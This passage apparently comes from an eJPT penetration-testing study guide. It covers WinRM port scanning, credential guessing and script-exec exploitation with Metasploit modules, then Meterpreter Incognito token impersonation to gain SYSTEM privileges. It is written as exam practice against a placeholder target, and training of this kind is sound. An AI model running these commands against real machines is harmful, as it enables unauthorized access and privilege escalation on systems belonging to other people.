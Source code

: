 #### **Level 3 - Possible (70% Chance):**
```bash
# WinRM service discovery
nmap -p 5985,5986 target_ip
# Expected: Open WinRM ports identified

# WinRM credential testing
use auxiliary/scanner/winrm/winrm_login
set RHOSTS target_ip
set USERNAME administrator
set PASSWORD password123
exploit
# Expected: Successful or failed login attempt

# WinRM shell exploitation
use exploit/windows/winrm/winrm_script_exec
set USERNAME found_username
set PASSWORD found_password
set FORCE_VBS true
exploit
# Expected: Meterpreter session with admin privileges
```

### **🎯 Common eJPT Exam Scenarios:**

#### **Scenario 1: Basic Token Impersonation**
**Given:** Existing low-privilege meterpreter session
**Your Job:** Escalate to SYSTEM privileges using token impersonation
**Time Limit:** 5-7 minutes

**Step-by-Step Approach:**
```bash
# Step 1: Check current status (1 minute)
meterpreter > getuid
meterpreter > sysinfo

# Step 2: Load and use Incognito (2 minutes)  
meterpreter > load incognito
meterpreter > list_tokens -u

# Step 3: Impersonate SYSTEM token (1 minute)
meterpreter > impersonate_token "NT AUTHORITY\\SYSTEM"

# Step 4: Verify success (1 minute)
meterpreter > getuid
meterpreter > getprivs
```

#### **Scenario 2: Automated Privilege Escalation**
**Given:** Standard user meterpreter session on Windows 10
**Your Job:** Use automated tools to find and exploit privilege escalation
**Time Limit:** 8-10 minutes
